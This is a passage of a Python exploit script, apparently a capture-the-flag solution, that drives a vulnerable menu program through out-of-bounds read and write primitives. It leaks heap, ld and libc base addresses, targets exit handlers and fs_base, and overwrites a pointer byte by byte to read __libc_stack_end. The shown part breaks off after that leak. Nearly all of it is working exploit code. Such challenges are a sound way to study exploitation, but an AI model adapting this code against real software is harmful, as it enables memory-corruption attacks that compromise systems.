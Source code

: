 ```python
    r.sendline(b'0')
    r.recvuntil(b'> ')

    return data

def write_free(offset, data):
    check_bytes(data)

    r.sendline(b'2') # free

    r.recvuntil(b'> ')
    r.sendline(b'2')  # write

    r.recvuntil(b'Offset: ')
    r.sendline(str(offset).encode())

    r.recvuntil(b'Size: ')
    r.sendline(str(len(data)).encode())

    r.recvuntil(b'Input: ')
    r.send(data)

    r.sendline(b'0')
    r.recvuntil(b'\n> ')

offset = (1 << 30) - 0x1000 - 1
data = read_free(offset, 1024)[1:]
buf_addr = u(data[:8])
mmap_addr = buf_addr - 0x100
print('mmap_addr =', hex(mmap_addr))

ld_base = mmap_addr + 0x191000
print('ld_base =', hex(ld_base))

libc_base = mmap_addr + 0x3000
print('libc_base =', hex(libc_base))

libc_stack_end_addr = ld_base + 0x2ba10
exit_handlers = libc_base + 0x17D660
fs_base = ld_base - 0x980

existing = p(buf_addr)
def set_addr(addr):
    global existing
    to_write = p(addr)
    for i in range(8):
        if to_write[i:] == existing[i:]:
            to_write = to_write[:i]
            break;
    for o, b in list(enumerate(to_write))[::-1]:
        check_byte(b)
        data = b'A' * (o + 1)
        data += bytearray([b])
        write_free(offset, data)
    existing = p(addr)

    wrote = u(read_free(offset, 9)[1:])
    assert wrote == addr, hex(wrote) + ' vs ' + hex(addr)

set_addr(libc_stack_end_addr)
libc_stack_end = u(read_fixed(0)[:8])
print('libc_stack_end =', hex(libc_stack_end))

```